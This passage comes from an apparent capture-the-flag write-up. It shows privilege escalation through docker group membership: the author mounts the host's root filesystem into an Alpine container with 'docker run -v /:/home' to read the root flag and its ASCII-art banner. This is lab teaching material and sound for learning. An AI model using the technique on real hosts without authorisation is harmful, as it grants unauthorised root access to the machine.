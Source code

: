 The user anurodh is part of the `docker` group.

[Docker](https://www.docker.com/) is a tool designed to make it easier to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all of the parts it needs, such as libraries and other dependencies, and deploy it as one package.

There are two key points to know in order to perform privilege escalation techniques with docker:
* By default, any machine container is run with root privileges (ie. you have root privileges inside the container). It means that any user (by default, any member of the “docker” group) who has access to the Docker Daemon has root privileges in the container. 
* Sometimes you will want to remove a container and rerun it because you updated the image (or changed the Dockerfile). If you need to remove a container, data changes you made are not persistent. We usually mount a host directory to access persistent data from the container.

You can find more information about it [here](https://flast101.github.io/docker-privesc/).

```
anurodh@ubuntu:~$ docker run -it -v /:/home alpine:latest
/ # whoami
root
```
So I created a new container using the `alpine` image already present on the machine and I mounted the entire filesysetm as a volume. In this way I had access to the entire filesystem with root permissions and at this point it was easy to get the flag.
```
/home/root # ls -l
total 4
-rw-r--r--    1 root     root          1385 Oct  4  2020 proof.txt
/home/root # cat proof.txt 


					{**************************************************}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
	        		                	|  Anurodh Acharya |
				                       	---------------------

	               		     Let me know if you liked it.

Twitter
	- @acharya_anurodh
```